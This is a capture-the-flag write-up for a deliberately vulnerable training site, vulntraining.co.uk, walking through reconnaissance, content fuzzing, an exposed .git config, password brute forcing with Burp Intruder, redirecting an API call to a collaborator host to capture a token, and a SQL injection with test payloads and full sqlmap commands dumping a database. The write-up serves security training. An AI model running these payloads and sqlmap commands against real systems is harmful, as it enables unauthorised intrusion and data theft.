

# VulnTraining

http://www.vulntraining.co.uk/ - 11 flags to find

Front page


Quick inspection of the HTML and I spot flag no.5 straight away!

```html
<meta name="flag" content="[^FLAG^XXXX^FLAG^]">
```

Quick use of assetfinder and there are 3 subdomains 

```
└─$ assetfinder -subs-only vulntraining.co.uk
vulntraining.co.uk
admin.vulntraining.co.uk
billing.vulntraining.co.uk
c867fc3a.vulntraining.co.uk
vulntraining.co.uk
vulntraining.co.uk
```

admin


billing


c867fc3a - flag no.1


OK let's start with content discovery at the root domain. This brings back a few interesting results


.git and framework just give the standard nginx 403 forbidden page. 

robots.txt reveals a hidden directory

```
User-agent: *
Disallow: /s3cr3T_d1r3ct0rY/
```

Which gives me a flag (no.2)

```
[^FLAG^xxx^FLAG^]
```

server gives me a 301 redirect to /server/login


BUT if I study the content of the response from /server before it does the redirect. It has flag no.4

```html
<h3 class="text-center">[^FLAG^xxx^FLAG^]</h3>
```

And a 'secret' link

```html
<a href="http://vulntraining.co.uk/php-my-s3cret-admin">http://vulntraining.co.uk/php-my-s3cret-admin</a>
```

Which takes you through to a phpMyAdmin portal, default credentials do not work.

I can also see the following technical details

- nginx v 1.16.1 ports 80 + 443
- php v 7.2.24 - /var/run/php/php7.2-fpm.sock
- mysql v 8.0

Next to do a fuzz on the framework location so www.vulntraining.co.uk/framework/FUZZ and we have

- /framework/controllers/ - 403 nginx page
- /framework/models/ - 403 nginx page
- /framework/routes/ - 403 nginx page
- /framework/templates/ - 403 nginx page

All of which still give the nginx 403 page, will fuzz further.

- /framework/controllers/FUZZ - nothing
- /framework/models/FUZZ - nothing
- /framework/routes/FUZZ - nothing
- /framework/templates/FUZZ - nothing

Whilst the fuzzing was happening I by chance noticed that the background image for the page is specified in the CSS of the page

```
div.headerinto {
    background-image: url('https://vulntraining.s3.eu-west-2.amazonaws.com/assets/heading.jpg');
    background-size: cover;
    background-position: bottom;
    background-repeat: no-repeat;
}
```

An S3 bucket with a flag.txt in it! (no. 3)

```
[^FLAG^xxx^FLAG^]
```

I should cover off the /server/FUZZ path fuzzing too

- /server/login - already known

Another quick check of the .git path shows me the 403 page of nginx


The version is different 1.14.0 other pages have shown 1.18.0. A quick google suggests that this version could be vulnerable to HTTP request smuggling!

After a bit of playing around with the HTTP Request Smuggler in Burp I however determined that this was unlikely. So I tried a fuzz on /.git/FUZZ. And got a hit with config, and the response showed this :)

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Thu, 09 Jun 2022 15:50:31 GMT
content-type: application/octet-stream
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulntraining.co.uk
connection: close
Content-Length: 288

[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = https://github.com/vuln-tr4in1ng-projects/website_framework.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
	remote = origin
	merge = refs/heads/master
```

Quick visit to the github repo showed this (flag no.6)


And there was also detail about a commit removing DB credentials!!


Back to the super secret phpMyAdmin and I can sign in now :)


Flag no.7 and a user/password for the billing portal

The password however is a base64 string of a hash, and a partial one at that. At least now though I have a valid user


Using Burp Intruder and our password list I get a hit with '987654321'


Flag no. 8 found. Links 1-4 just show invoices


The bottom of each page has an interesting HTML comment

```html
</script>
<!--
API Response Time 0.0001
-->
</body>
```

So it must be getting its data from an API. What's the bet its from c867fc3a.vulntraining.co.uk or admin.vulntraining.co.uk

FUZZ!!!

First c867fc3a.vulntraining.co.uk/FUZZ - nope

Now admin.vulntraining.co.uk/FUZZ - we have admin and invoices both 401 responses

Let's continue to fuzz on those paths.

- /invoices/X seems to respond with another 401 where X is numeric, will wait for the FUZZ to complete and then do another fuzz on /invoices/1/FUZZ for example
- /invoices/1/FUZZ - all 404 responses
- /admin/FUZZ - one hit on users
- /admin/users/FUZZ - hits on numbers 1 etc. all respond with 401
- /admin/users/1/FUZZ - all 404 responses

In conclusion known endpoints for admin.vulntraining.co.uk

- GET /
- GET /admin/users/{ID}
- GET /invoices/{ID}

Also tried to use the other HTTP verbs POST, PUT, DELETE, OPTIONS, TRACE, HEAD, CONNECT on the above none of which worked.

Notes are good, I've not mentioned FUZZ on billing.vulntraining.co.uk let's try that!

- /1 - known
- /2 - known
- /3 - known
- /4 - known
- /login - known
- /logout - known

OK well I can be confident I've done enough path fuzzing now on all domains. So I need to be authorised to access these API endpoints

After trying a number of 401/403 bypasses on hacktrickz I decided to try out fuzzing parameters on the API directly.

For example /admin?FUZZ=x

Still getting 401 responses though....

So back to billing to check for any hidden query params in the path. I get a weird hit with ?api=x

```html
<h1>API Error</h1>
```

API? As a query parameter name? How ambiguous is that? Right ok so I have to work what sort of value this would accept. TBH a query parameter in this location surprised me, there clearly seems to be some separation between the front end and API layer so it's just luck I picked up on this....

Tried the supplied wordlist for values and nothing.....

Could it be referencing the name of the API or the URL to the API it uses? Tried the following

- /invoices - API Error
- /admin - API Error
- /admin/users - API Error
- admin.vulntraining.co.uk - API Error
- http://admin.vulntraining.co.uk - API Error

One last thing to try was to fire up my collab client grab the host/domain and try that. And I get a hit! Flag no.9 and a token for the API

./

As someone who has developed a lot of API's over the years I'm horrified if this was a true scenario, why oh why would you allow the base URL to an API be configurable on user input in the browser like this! This was a tricky flag to find

Anyway.... I can use the token now, back to those end points we found before.

Using the token in the request eg.

```
GET /admin/users/5 HTTP/1.1
Host: admin.vulntraining.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Token: xxx
Connection: close
Cookie: ctfchallenge=xxx
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

I get a response back with a flag (no. 10)

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Fri, 10 Jun 2022 21:54:46 GMT
content-type: application/json
set-cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTBkalJsY1hsa2VDSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiIyYzE2MGJkOWI0ZDBkYmE5NDRjYjM5MGVjMDcwYWZhYiJ9; Max-Age=2592000; Path=/; domain=.vulntraining.co.uk
connection: close
Content-Length: 148

{"id":5,"username":"jon.helmstead","flag":"[^FLAG^xxx^FLAG^]","apikey":"xxxx","admin":true}
```

Looks like Jon is an admin with a different API key, lets quickly switch to using his API key instead. And I find this

Request
```
GET /admin HTTP/1.1
Host: admin.vulntraining.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Token: xxxx
Connection: close
Cookie: ctfchallenge=xxx
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Response
```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Fri, 10 Jun 2022 21:58:33 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulntraining.co.uk
connection: close
Content-Length: 59

{"endpoints":["\/admin\/users","\/admin\/s3cr3t_m3ss4g3s"]}
```

A new endpoint not seen with fuzzing

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Fri, 10 Jun 2022 22:01:13 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulntraining.co.uk
connection: close
Content-Length: 51

[{"id":"2","link":"\/admin\/s3cr3t_m3ss4g3s?id=2"}]
```

OK looks like a single message, let's have a look

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Fri, 10 Jun 2022 22:02:24 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulntraining.co.uk
connection: close
Content-Length: 57

{"id":"2","message":"Hey, did you get my other message?"}
```

OK a message with ID 2 let's tweak the request to see if 1 is still there

```
HTTP/1.1 423 Locked
server: nginx/1.21.1
date: Fri, 10 Jun 2022 22:03:04 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulntraining.co.uk
connection: close
Content-Length: 22

["Message is deleted"]
```

Nope...

Ummmm can I try SQLi maybe on the ID?

Yes probably, I tried with (2 and 1=1#)

```
GET /admin/s3cr3t_m3ss4g3s?id=2%20and%201%3d1%23
```

And got 

```
{"id":"2","message":"Hey, did you get my other message?"}
```

Then tweaked it slightly to (2 and 1=2#)

```
GET /admin/s3cr3t_m3ss4g3s?id=2%20and%201%3d2%23
```

And got

```
["Message not found"]
```

OK to SQLMap, first round

```
└─$ sqlmap -u http://admin.vulntraining.co.uk/admin/s3cr3t_m3ss4g3s?id=1* --delay=0.2 --cookie='ctfchallenge=xxx' -H "X-Token: xxx"
```

SQLMap confirmed it was, so I'll try to enumerate the DB's using the same technique

```
└─$ sqlmap -u http://admin.vulntraining.co.uk/admin/s3cr3t_m3ss4g3s?id=1* --delay=0.2 --cookie='ctfchallenge=xxx' -H "X-Token: xxx" --dbs
```

Got em

```
available databases [2]:
[*] information_schema
[*] vulntraining_api
```

OK let's do the same thing for the tables and columns

```
└─$ sqlmap -u http://admin.vulntraining.co.uk/admin/s3cr3t_m3ss4g3s?id=1* --delay=0.2 --cookie='ctfchallenge=xxx' -H "X-Token: xxx" -D vulntraining_api --tables --columns
```

And we have

```
Database: vulntraining_api
Table: message
[3 columns]
+---------+------------+
| Column  | Type       |
+---------+------------+
| deleted | tinyint(1) |
| id      | int        |
| message | text       |
+---------+------------+
```

Now I know the database and the table I can dump it

```
└─$ sqlmap -u http://admin.vulntraining.co.uk/admin/s3cr3t_m3ss4g3s?id=1* --delay=0.2 --cookie='ctfchallenge=xxx' -H "X-Token: xxx" -D vulntraining_api -T message --dump
```

And I have the final flag :). Challenge complete :)

```
Database: vulntraining_api
Table: message
[2 entries]
+----+---------+--------------------------------------------------------------------------------------+
| id | deleted | message                                                                              |
+----+---------+--------------------------------------------------------------------------------------+
| 1  | 1       | Don't share this message with anyone! [^FLAG^xxx^FLAG^] |
| 2  | 0       | Hey, did you get my other message?                                                   |
+----+---------+--------------------------------------------------------------------------------------+
```